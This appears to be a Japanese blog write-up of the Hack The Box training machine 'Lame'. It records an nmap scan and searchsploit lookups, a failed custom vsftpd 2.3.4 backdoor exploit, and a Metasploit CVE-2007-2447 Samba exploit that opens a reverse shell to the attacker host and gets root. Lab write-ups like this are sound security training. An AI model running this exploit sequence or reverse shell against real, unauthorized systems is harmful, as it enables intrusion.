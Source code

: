 # はじめに
Hack The Boxの攻略などを自分用にまとめたものです。  
主に記録用として記しています。  
現在のランクはHackerです。  
間違っていることも多いかと思いますが、よろしくお願いします。  
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">  
Twitter:@yukitsukai1731

# Lame
HackTheBox公式より
<img width="265" alt="スクリーンショット 2020-05-27 15.19.35.png" src="https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d43f3496-414b-af40-84ca-0d0f58f50ae9.png">

Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

Lameは初心者レベルのマシンで、ルートアクセスを得るために必要なエクスプロイトは1つだけです。Hack The Boxで公開された最初のマシンであり、引退するまでは新規ユーザーの最初のマシンであることが多かった。

# スキャン
Lame(10.10.10.3)に対して、スキャンを行います。
まずnmapからスキャンを開始します。
## nmap 
```
nmap -sC -sV -oN -Pn lame 10.10.10.3
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -oN...通常出力
- -Pn...ping送信をせずにスキャンを行う

```
kali@kali:~/htb/Lame$ nmap -sC -sV -Pn -oN lame 10.10.10.3
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-27 02:11 EDT
Nmap scan report for 10.10.10.3
Host is up (0.38s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable                                                                            
|_End of status                                                                                                       
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)                                                
| ssh-hostkey:                                                                                                        
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)                                                        
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)                                                        
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3d00h54m04s, deviation: 2h49m45s, median: -3d02h54m06s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-05-23T23:18:11-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.94 seconds
```

ここで、21番ポートのvsftpd2.3.4と445番ポートのSamba smbd 3.0.20が気になります。
それぞれsearchsploitを使用して検索してみましょう。

```
kali@kali:~/htb/Lame$ searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                              | unix/remote/17491.rb
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

```
kali@kali:~/htb/Lame$ searchsploit Samba 3.0.20
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                              | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)    | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                               | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

これらの情報をもとに、侵入していきたいと思います。

# 侵入
まずはvsftpd2.3.4を使いたい思います。
vsftpd2.3.4はGoolgeで調べてみたところ、バックドアコードが含まれている時期がありました。
これを利用してみましょう。
僕が昔、このexploitコードを勉強がてら書いたことがあるので、それを利用したいと思います。
GitHub:
https://github.com/yukitsukai47/vsftpd2.3.4_exploit

```
kali@kali:~/htb/Lame$ python3 exploit.py 10.10.10.3
対象のサーバへ接続中...
対象のサーバにvsftpd2.3.4の脆弱性がありました.

攻撃を開始します
攻撃完了!
timed out
kali@kali:~/htb/Lame$
```

どうやらvsftpd2.3.4は使っているが、バックドアコードは取り除かれているもののようです。

次に、Samba 3.0.20の脆弱性を利用したものをmetasploitから実行してみましょう。
Samba 3.0.20はGoogleで調べたCVE-2007-2447とされています。

![スクリーンショット 2020-05-27 16.11.16.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a1405547-fef8-d554-045b-d823c8e2c05a.png)



```
kali@kali:~/htb/Lame$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > search CVE-2007-2447

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


msf5 > use exploit/multi/samba/usermap_script 
msf5 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 10.10.14.4:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo CHcW0IbpgJJIrdAq;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\nCHcW0IbpgJJIrdAq\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:45255) at 2020-05-27 03:04:39 -0400


whoami
root
```

いきなりrootが得られました。
お疲れ様でした。